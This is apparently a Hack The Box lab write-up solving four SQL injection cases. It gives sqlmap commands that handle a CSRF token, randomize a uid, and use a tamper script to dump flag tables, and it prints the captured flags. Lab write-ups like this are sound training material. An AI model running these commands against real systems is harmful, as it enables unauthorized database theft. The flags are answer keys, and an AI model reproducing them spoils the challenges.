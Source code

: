 ## Challenge 1

What's the contents of table flag8? (Case #8) 

## Solution 1

The description here is `Detect and exploit SQLi vulnerability in POST parameter id, while taking care of the anti-CSRF protection
(Note: non-standard token name is used)`.

Since it is a post request, I open the page using BURP, and save the request to a file.

I see that the token is written as follows:

```http
id=1&t0ken=w3kvfr3QvnlbjqaSxRrWYknHzzt1ouNmc0Ib3I4YM
```

So this tells me that the parameter name for the token is `t0ken` which I will use in the SQLMap, by executing the following:

```sh
python3 sqlmap.py -r ../../case8.txt -p id --csrf-token="t0ken" --dump
```

This has provided me with the answer:

```sh
+----+-----------------------------------+
| id | content                           |
+----+-----------------------------------+
| 1  | HTB{y0u_h4v3_b33n_c5rf_70k3n1z3d} |
+----+-----------------------------------+
```

## Challenge 2

What's the contents of table flag9? (Case #9) 

## Solution 2

The description is `Detect and exploit SQLi vulnerability in GET parameter id, while taking care of the unique uid`.

And when I click on the link to execute the query, it sends me to a link `http://94.237.54.190:48195/case9.php?id=1&uid=1549169685`.

So, I will attack it by randomizing the `uid`, by executing the following:

```sh
python3 sqlmap.py -u "http://94.237.54.190:48195/case9.php?id=1&uid=1549169685" -p id --randomize=uid --dump
```

This has provided me with the flag:

```sh
+----+---------------------------------------+
| id | content                               |
+----+---------------------------------------+
| 1  | HTB{700_much_r4nd0mn355_f0r_my_74573} |
+----+---------------------------------------+
```

## Challenge 3

What's the contents of table flag10? (Case #10) 

## Solution

Since it's POST request, open it in Burp and save it as a file.

Then start SQLMap on this file:

```sh
python3 sqlmap.py -r ../../case10 -p id --dump --batch
```

And you will get the flag, which is:

```sh
HTB{y37_4n07h3r_r4nd0m1z3}
```

## Challenge 4

What's the contents of table flag11? (Case #11) 

## Solution 4

The description is that it is a `Filtering of characters '<', '>'` and that `Detect and exploit SQLi vulnerability in GET parameter id`.

So this means I have to use some tamper scripts, particularly the `between` one.

I executed the following:

```sh
python3 sqlmap.py -u "http://94.237.54.190:48195/case11.php?id=1" -p id -T flag11 -D testdb --tamper=between --dump

```

This has provided with the flag:

```sh
+----+----------------------------+
| id | content                    |
+----+----------------------------+
| 1  | HTB{5p3c14l_ch4r5_n0_m0r3} |
+----+----------------------------+
```



